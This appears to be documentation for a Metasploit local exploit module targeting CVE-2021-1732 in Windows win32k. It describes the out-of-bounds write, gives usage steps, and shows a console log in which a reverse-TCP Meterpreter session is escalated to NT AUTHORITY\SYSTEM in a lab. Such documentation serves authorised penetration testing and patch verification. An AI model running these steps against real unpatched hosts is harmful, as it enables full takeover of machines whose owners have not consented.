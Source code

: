 ## Vulnerable Application
A vulnerability exists within win32k that can be leveraged by an attacker to escalate privileges to those of
NT AUTHORITY\SYSTEM. The flaw exists in how the WndExtra field of a window can be manipulated into being treated as an
offset despite being populated by an attacker-controlled value. This can be leveraged to achieve an out of bounds write
operation, eventually leading to privilege escalation.

### Installation And Setup
Windows 10 versions 1803 through 20H2 (without the patch) are vulnerable out of the box. This exploit module has been
tested on all 6 affected versions of Windows.

## Verification Steps

1. Start msfconsole
1. Get a Meterpreter session on a vulnerable host
1. Do: `use exploit/windows/local/cve_2021_1732_win32k`
1. Set the `SESSION` and `PAYLOAD` options
1. Do: `run`
1. You should get a shell.

## Scenarios

### Windows 10 Version 20H2 Build 19042.746 x64

```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-JKM0HAD\aliddle
meterpreter > sysinfo
Computer        : DESKTOP-JKM0HAD
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > background 
[*] Backgrounding session 1...
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use exploit/windows/local/cve_2021_1732_win32k 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2021_1732_win32k) > set SESSION -1
SESSION => -1
msf6 exploit(windows/local/cve_2021_1732_win32k) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2021_1732_win32k) > set LHOST 192.168.159.128 
LHOST => 192.168.159.128
msf6 exploit(windows/local/cve_2021_1732_win32k) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad to host the DLL...
[+] Process 7672 launched.
[*] Reflectively injecting the DLL into 7672...
[*] Sending stage (200262 bytes) to 192.168.159.66
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.66:60838) at 2021-03-15 17:56:28 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

